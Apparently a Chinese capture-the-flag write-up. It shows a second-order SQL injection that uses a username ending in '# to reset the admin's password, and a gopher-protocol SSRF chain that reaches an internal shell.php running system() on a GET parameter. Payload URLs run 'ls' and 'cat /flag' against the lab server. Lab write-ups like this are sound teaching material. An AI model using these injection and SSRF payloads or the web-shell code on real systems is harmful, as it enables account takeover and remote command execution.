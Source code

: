 还是阴间过滤，但是下方有一句update类型sql语句。虽然在更新之前做了过滤，但忘记过滤了一个很重要的符号：#。某种意义上这是一个二次注入，我们先注册一个admin'#的用户，密码随便。然后登录改密码。此时sql语句就变成了下面这样：

```php
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin'#' and password='$curr_pass' ";
```

这样我们改密码时改的其实是admin的密码，下次就能直接登录了。完成一套操作后看看admin账户里有什么。

- This is your hint:
<br>hint{see_55ceedfbc97b0a81277a55506c34af36_php}

访问指定路径。

- http://61.147.171.105:53561/xinan/public/55ceedfbc97b0a81277a55506c34af36.php

提示please get $url。这是ssrf的显著特征啊，想想怎么利用。在源码里翻一通，找到了个shell.php。

```php
 <?php 
echo "这个是内网的操作页面，只允许内网人员使用,get_cmd";
echo "<br />";
if($_SERVER["REMOTE_ADDR"] === "127.0.0.1") 
{ 
    
     
       @eval(system($_GET["cmd"]));
     
} 
else 
      { 
        echo "您的ip是".$_SERVER["REMOTE_ADDR"]."<hr/>"."不是我们的内网机器"."<hr/>"."这是一台内网机器，只接受本机请求"."<hr/>"; 
        return false; 
      } 
```

要求内网。不过没提到用什么协议。看[wp](https://www.freesion.com/article/38341401397/)据说攻防世界少给东西了，原题是有告知过滤了什么协议的，只剩下个gopher能用。之前用过一次，忘了，再查查[资料](https://www.freebuf.com/articles/web/337824.html)。构造payload。

- http://61.147.171.105:53561/xinan/public/55ceedfbc97b0a81277a55506c34af36.php?url=gopher://127.0.0.1:80/_GET%20/xinan/public/shell.php%253Fcmd=ls%2B/


flag常规名字。cat就好了。

- http://61.147.171.105:53561/xinan/public/55ceedfbc97b0a81277a55506c34af36.php?url=gopher://127.0.0.1:80/_GET%20/xinan/public/shell.php%253Fcmd=cat%2B/flag

gopher发送get报文前面有个_是因为gopher发送过去会吃掉第一个字符，所以最前面那个是故意给协议吃的，用什么都行。需要将报文内容进行url编码，？更是要二次编码成%253F，不知道为啥，可能跟吃第一个字符一样是特性吧。

- ### Flag
  > flag{4e8f794089b6b4ef55cd0399dca1433c}